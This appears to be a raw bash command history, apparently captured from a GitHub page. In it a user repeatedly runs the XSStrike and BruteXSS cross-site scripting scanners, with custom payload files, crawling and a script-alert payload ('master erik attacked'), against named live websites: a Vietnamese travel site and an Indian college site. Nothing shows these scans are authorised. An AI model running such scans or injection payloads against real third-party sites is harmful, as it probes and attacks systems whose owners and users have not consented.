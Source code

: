  1698  py xsstrike.py 
 1699  python xsstrike.py 
 1700  python3 xsstrike.py 
 1701  clear
 1702  python3 xsstrike.py 
 1703  python3 xsstrike.py -u https://dulichvietnam.com.vn/du-lich-malaysia/?s=hi
 1704  clear
 1705  ping google.com
 1706  java -jar TLauncher-2.72.jar 
 1707  java -jar burploader.jar 
 1708  cd 
 1709  cd ~/Documents/
 1710  cd ..
 1711  cd Downloads/
 1712  sudo dpkg -i teamviewer_15.11.6_amd64.deb 
 1713  sudo apt --fix-broken install
 1714  ./firefox -P DOMinatorProfile -NO-REMOTE this will create a new profile. b. if Windows create a link named DOMinator containing ./firefox -P DOMinatorProfile -NO-REMOTE
 1715  sudo /opt/lampp/lampp start
 1716  sudo /opt/lampp/lampp stop
 1717  java -jar burploader.jar 
 1718  sudo apt install ffmpeg
 1719  sudo add-apt-repository ppa:obsproject/obs-studio
 1720  sudo apt update && sudo apt install obs-studio
 1721  sudo apt install obs-studio
 1722  java -jar burploader.jar 
 1723  echo > payloadXSS.txt
 1724  python3 xsstrike.py 
 1725  python3 xsstrike.py  --path '/home/erik/Documents/XSStrike/payloadCSS/payloadXSS.txt' 
 1726  clear
 1727  python3 xsstrike.py  --path /home/erik/Documents/XSStrike/payloadCSS/payloadXSS.txt
 1728  clear
 1729  git clone https://github.com/rajeshmajumdar/BruteXSS.git
 1730  python3 brutexss.py 
 1731  python3 xsstrike.py 
 1732  python3 xsstrike.py -u http://gmcbhavnagar.edu.in/association.php?code=hi --path /home/erik/Documents/XSStrike/payloadCSS/payloadXSS.txt
 1733  python3 xsstrike.py -u http://gmcbhavnagar.edu.in/association.php?code=hi 
 1734  python3 xsstrike.py 
 1735  python3 xsstrike.py -u http://gmcbhavnagar.edu.in/association.php?code=hi  --path 
 1736  python3 xsstrike.py -u http://gmcbhavnagar.edu.in/association.php?code=hi  
 1737  python3 xsstrike.py -u http://gmcbhavnagar.edu.in/association.php?code=hi  --crawl
 1738  python3 xsstrike.py -u http://gmcbhavnagar.edu.in/association.php?code=hi  --path ~
 1739  python3 xsstrike.py 
 1740  python3 xsstrike.py -u http://gmcbhavnagar.edu.in/association.php?code=hi  --path '/home/erik/Documents/XSStrike/payloadXSS.txt' 
 1741  python3 xsstrike.py -u http://gmcbhavnagar.edu.in/association.php?code=hi  --path payloadXSS.txt
 1742  python3 xsstrike.py -u http://gmcbhavnagar.edu.in/association.php?code=hi  --path 
 1743  clear
 1744  python3 xsstrike.py -u http://gmcbhavnagar.edu.in/association.php?code=hi  
 1745  clear
 1746  python3 xsstrike.py -u http://gmcbhavnagar.edu.in/association.php?code=hi  
 1747  clear
 1748  python3 xsstrike.py -u http://gmcbhavnagar.edu.in/association.php?code=hi  --skip-DOM
 1749  python3 xsstrike.py -u http://gmcbhavnagar.edu.in/association.php?code=hi  --skip-dom
 1750  python3 xsstrike.py -u http://gmcbhavnagar.edu.in/association.php?code=hi  --data <script>alert("master erik attacked")</script>
 1751  python3 xsstrike.py -u http://gmcbhavnagar.edu.in/association.php?code=hi  --data 
 1752  python3 xsstrike.py -u http://gmcbhavnagar.edu.in/association.php?code=hi  --data 1
 1753  python3 xsstrike.py -u http://gmcbhavnagar.edu.in/association.php?code=hi  --path 
 1754  pip3 install Tkinter
 1755  python3 xsstrike.py  --path /home/erik/Documents/XSStrike/payloadCSS/payloadXSS.txt
 1756  history 